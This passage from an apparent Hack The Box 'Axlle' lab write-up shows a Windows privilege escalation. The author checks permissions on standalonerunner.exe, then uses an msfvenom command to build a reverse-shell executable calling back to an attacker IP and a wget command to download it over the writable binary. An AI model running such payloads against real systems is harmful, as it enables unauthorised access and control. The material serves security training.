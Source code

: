 Inside `C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64`, we can find standalonerunner.exe:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-19.png)

Let's check the permission:

`icacls standalonerunner.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-20.png)

- **Full Control**: `AXLLE\Administrator`, `NT AUTHORITY\SYSTEM`, `BUILTIN\Administrators`.
- **Read & Execute, Write**: `AXLLE\App Devs`.
- **Read & Execute**: `BUILTIN\Users`, `APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES`, `APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES`.
- **Read Only**: `Everyone`.

Since jacob is in App Devs group, we should be able to write on this file.

Let's replace standalonerunner.exe with our maliciously crafted payload.

We will first create reverse shell exe file using msfvenom:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.23 LPORT=9001 -f exe -o rev.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-25.png)

Copy the reverse shell payload to the system and replace standalonerunner.exe:

`wget http://10.10.14.23:1234/rev.exe -o standalonerunner.exe`
